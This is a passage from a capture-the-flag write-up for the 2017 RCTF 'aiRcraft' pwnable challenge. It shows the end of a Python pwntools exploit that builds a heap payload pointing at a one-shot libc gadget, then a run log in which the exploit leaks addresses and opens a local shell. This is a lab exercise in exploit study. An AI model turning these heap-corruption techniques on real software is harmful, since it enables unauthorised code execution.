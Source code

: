 ```python
payload = "G" * 2
payload += p64(0)
payload += p64(addr_heap + 0x10)
payload += p64(0)
payload += p64(one_shot)
fn_build(0x40, payload)

fn_select_plane("\x50"*0x1f, 2)

p.interactive()
```

## Result

```
hackability@ubuntu:~/ctf/pwnable/0010_2017_RCTF_aiRcraft$ python sol_aiRcraft.py
[+] Starting local process './aiRcraft': pid 16916
Welcome to aiRline!
what do you want to do?
1. Buy a new plane
2. Build a new airport
3. Enter a airport
4. Select a plane
5. Exit
Your choice:
[*] libc base : 0x7ffff7a0d000
[*] one-shot  : 0x7ffff7a5226a
[*] heap addr : 0x555555757000
[*] Switching to interactive mode
$ id
uid=1000(hackability) gid=1000(hackability)
```
